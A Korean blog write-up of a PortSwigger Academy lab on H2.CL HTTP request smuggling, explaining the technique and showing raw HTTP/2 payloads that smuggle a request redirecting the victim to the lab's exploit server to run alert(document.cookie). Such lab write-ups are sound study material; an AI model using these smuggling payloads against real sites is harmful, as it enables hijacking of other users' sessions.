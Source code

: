 ```yaml
---
layout: post
title: "Burp Academy-HTTP Request Smuggling 관련 취약점: H2.CL request smuggling"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, HTTP Request Smuggling]
toc: true
last_modified_at: 2024-01-31 21:00:00 +0900
---
```


# 개요
- HTTP Request Smuggling 취약점 문제이다. 
- 여기서부터는 HTTP 프로토콜2를 사용하는 서버에 대한 스머글링을 사용한다. Advanced 토픽이다. 
- 이는 2021년 8월에 발표한 James Kettle의 [HTTP/2: The Sequel is Always Worse](https://portswigger.net/research/http2)에 기초한 내용이다. 
- HTTP Request Smuggling 취약점 문제 13번부터 18까지 6개 문제는 이와 관련된 문제이다. 
- 문제 주소: https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-cl-request-smuggling
- 취약점 설명페이지: https://portswigger.net/web-security/request-smuggling/advanced
- 난이도: PRACTITIONER (보통)

# 취약점 개요 (H2.CL)
- HTTP/2에서는 CL헤더가 존재하지 않는다. 서버측이 보내진 컨텐츠의 길이를 보고 정확한 값을 계산하는 프로토콜 사양이다.
- 따라서, HTTP/2에서는 스머글링이 가능하지 않다. 
- 한편, 프론트엔드/백엔드 서버로 이루어진 사이트에서, 프론트엔드 서버가 HTTP/2를 사용한다고 해도, 백엔드서버가 HTTP/1만 사용가능하기 때문에 백엔드 서버에 요청을 전달할 때는 HTTP/1로 다운그레이드하는 방식이 널리 퍼져있다. (대부분의 리버스 프록시가 이런 식으로 동작한다고 한다.)
- 다운그레이드하게 되면 CL이나 TE를 볼 수 밖에 없다. 
- 따라서 프론트엔드는 HTTP/2로 통신하지만 백엔드는 HTTP/1의 CL이나 TE헤더를 보는 경우의 수가 생긴다. (H2.CL이나 H2.TE타입이 나온다. )
- 이번 랩은 H2.CL 타입이다. 
- 프론트엔드는 CL을 안보지만 백엔드는 CL을 본다. 
- **CL 값을 0으로 줘서, 백엔드 입장에서 봤을 때 스머글링 하는 요청은 별도 요청으로 인식하도록 하는 테크닉을 사용할 수 있다.**

# 랩 개요
- 이 랩은 프론트 엔드 서버와 백엔드 서버로 구성되어 있다. 프론트 엔드 서버는 HTTP/2 요청을 백엔드에 전송할 때 HTTP1으로 다운그레이드한다. 
- 랩을 풀려면 백엔드 서버에게 HTTP요청을 밀반입해서, victim의 브라우저에서 exploit서버의 악의적인 Javascript파일을 로드해서 실행시키면 된다. (`alert(document.cookie)`를 수행하는 Javascript다.) 
- victim은 10초마다 웹 사이트를 방문한다. 

```
This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests even if they have an ambiguous length.

To solve the lab, perform a request smuggling attack that causes the victim's browser to load and execute a malicious JavaScript file from the exploit server, calling alert(document.cookie). The victim user accesses the home page every 10 seconds.
```

# 풀이 시도
- exploit 서버가 주어져 있다. 
- 프론트엔드는 HTTP/2로 동작하고, 백엔드는 HTTP/1.1이고 CL헤더를 인식한다. (그래서 H2.CL 이다.)
- victim이 exploit서버의 자바스크립트 파일을 읽어들이도록 만들어야 한다. 

1. 다음과 같은 요청을 시도해봤지만 응답은 항상 같은 200응답이었다. 어딘가 놓치고 있는 부분이 있는 것 같다. 

```http
POST / HTTP/2
Host: 0a0a00f0043d8663829f34c800d30018.web-security-academy.net
Cookie: session=B3LiF7FBl5KdzUiUkyPVXDpoDAZdl9Tj
Content-Length: 124

GET /exploit HTTP/1.1
Host: https://exploit-0a6600ba046a86708218330f019000be.exploit-server.net 
Content-Length: 10

x=1
```

```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 8771

<!DOCTYPE html>
```

2. 아하, Content-Length값은 작게해주어야 했다. (프론트엔드는 CL헤더를 보지 않지만 백엔드는 본다. 따라서 스머글링용 요청앞에 몇 바이트를 추가하고, 이 바이트수만큼 CL헤더에 값을 주면 백엔드가 인식해서 처리해줄 것이다.) 따라서 다음과 같이 바꿨더니 두번째 요청의 응답에서 404를 확인할 수 있었다. 스머글링 자체는 되고 있는 것 같다. 

![CL헤더 값 변경후](/images/burp-academy-hrs-13-1.png)

3. 그런데 왜 404응답인 걸까? 스머글링 하는 `GET /exploit` 은 exploit서버에서는 정상적으로 동작하는 요청이다. 

어쩌면 스머글링 요청의 Host헤더 값은 무시하는 걸수도 있다. 다음 테스트로 그 것을 확인했다. exploit서버에는 존재하지 않는 경로지만 랩서버에는 존재하는 경로로 요청을 보내면 응답이 있었다. 

![어느 곳을 보는지 확인](/images/burp-academy-hrs-13-2.png)

4. 그렇다면 Host를 포함해서 풀경로를 적어본다. 음.. 안된다. 

![풀경로 적었을 때](/images/burp-academy-hrs-13-3.png)

5. 랩 서버에서 오픈 리다이렉트가 되는지 확인해본다. 만약 있다면 exploit서버로 리다이렉트되는 요청을 밀반입시켜서 유저에게 전달할 수 있을 것이다. 

음... 모르겠다. `POST /post/comment` 요청이 다음과 같이 302응답을 회신해주긴한다. 그러나 Location값을 임의로 지정할 수가 없다. Origin이나 Referer등에 exploit서버의 URL을 지정해도 돌아오는 Location 값은 변함이 없었다. 

```
HTTP/2 302 Found
Location: /post/comment/confirmation?postId=8
X-Frame-Options: SAMEORIGIN
Content-Length: 0


```

# 답 보고 풀이 
6. 아하.. `/resources` 가 302응답을 해주는 엔드포인트였다. (이런 걸 스스로 찾아낼 수 있을까? )

![302응답 엔드포인트](/images/burp-academy-hrs-13-4.png)

7. exploit서버의 `/resources` 경로로 요청이 오면 `alert(document.cookie)`를 내려주도록 준비해둔다.

8. 다음 페이로드를 사용해서 302응답이 되도록 만든다. 두세번 요청하면 302응답을 확인할 수 있었다. 

```http
POST / HTTP/2
Host: 0a4900cc037a9dfe877e01e600ff002f.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7
Content-Length: 0

GET /resources HTTP/1.1
Host: exploit-0acc004303029dd5879f00d9014900bf.exploit-server.net
Content-Length: 5

x=1
```

![302응답 엔드포인트](/images/burp-academy-hrs-13-5.png)

9. victim이 10초마다 사이트를 방문하므로 타이밍이 맞아야 한다. 성공 메세지가 뜰 때까지 페이로드를 보내는 것을 반복한다. 5~6번 반복하니 성공했다. 

![풀이 성공](/images/burp-academy-hrs-13-success.png)


메모. 
# CL.0
- 프론트엔드는 CL헤더를 보지만 백엔드는 보지 않는 경우. (CL값이 0인것으로 인식하는 것과 같기 때문에 CL.0라고 부름)
- 양 서버가 서로 다른 해석을 하므로 이 경우도 HRS가 가능하다. 
- TE헤더를 추가하거나 할 필요가 없기 때문에 브라우저에서도 테스트가능하다. 
- 
